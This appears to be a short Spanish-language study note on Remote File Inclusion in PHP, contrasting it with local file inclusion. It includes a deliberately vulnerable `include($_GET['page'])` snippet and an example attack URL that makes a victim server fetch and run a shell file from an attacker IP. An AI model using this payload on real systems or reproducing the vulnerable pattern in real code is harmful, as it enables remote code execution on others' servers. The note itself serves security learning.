 Es muy parecido al [[LFI(Local File Inclusion)]] nada mas que envés de listar archivos a nivel local
En RFI los vamos a ejecutar los archivos

------
### 📍 ¿Dónde suele encontrarse?

Principalmente en aplicaciones escritas en **PHP**, aunque puede aparecer en otros entornos mal configurados.

Un código vulnerable en PHP sería:
```
<?php include($_GET['page']); ?>
```

*Dato importante:*
El servidor tiene que tener `allow_url_include = On` (una opción insegura en PHP), va a ejecutar el contenido de ese archivo como si fuera parte del código del sitio.

-----
### Pero nosotros lo vamos a identificar cuando tiene por ejemplo el parametro page= para redireccionar

```
http://victima.com/index.php?page=home.php
```

------
## 🧪 Ejemplo práctico

```
http://victima.com/index.php?page=http://10.10.14.6/shell.exe
```
Ejecutamos el archivo